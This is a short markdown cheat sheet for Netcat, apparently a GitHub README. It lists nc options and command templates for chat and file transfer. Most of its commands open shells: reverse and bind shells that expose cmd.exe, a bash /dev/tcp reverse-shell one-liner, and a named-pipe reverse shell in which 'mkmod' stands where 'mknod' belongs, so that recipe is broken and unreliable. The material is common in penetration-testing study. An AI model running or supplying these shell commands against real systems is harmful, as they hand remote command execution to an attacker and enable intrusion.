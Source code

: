 # Netcat Cheat Sheet
Quick reference for Netcat commands.

- `nc [options] [TargetIPaddr] [port(s)]`

## Command options

- `-l` : listen mode (server)
- `-p <port>` : specify local port
- `-u` : use UDP instead of TCP
- `-e <program>` : execute a program after connection
- `-n` : no DNS resolution
- `-z` : scan only
- `-v` : verbose
- `-vv` : very verbose
- `-w <seconds>` : timeout for connects and final net reads
- `-r` : randomize ports in scan
  
## Basic commands
- `Chat Interface`:
  - `Listener: nc -lvp [port]`
  - `Client: nc [Listenser_IP] [port]`
  
- `File Transfer`:
  - `Listener: nc -v -w 30 -l -p [port] < [file]`
  - `Client: nc -v -w 5 [Listener_IP] [port] > [file]`

- `Reverse Shell`:
  - `Listener: nc -lvp [port]`
  - `Client: nc [Listener_IP] [port] -e cmd.exe` 
  
- `Bind Shell`:
  - `Listener: nc -lvp [port] -e cmd.exe`
  - `Client: nc [Listener_IP] [port]`
  
## Advance commands
- `Reverse Shell using TCP socket`:
  - `Listener: nc -lvp [port]`
  - `Client: /bin/bash -i > /dev/tcp/[Listener_IP]/[port] 0<&1 2>&1`

- `Reverse Shell using backpipes`:
  - `Listener: nc -lvp [port]`
  - `Client: mkmod backpipe p; nc [Listener_IP] [port] 0<backpipe | /bin/bash 1>backpipe`
  
    

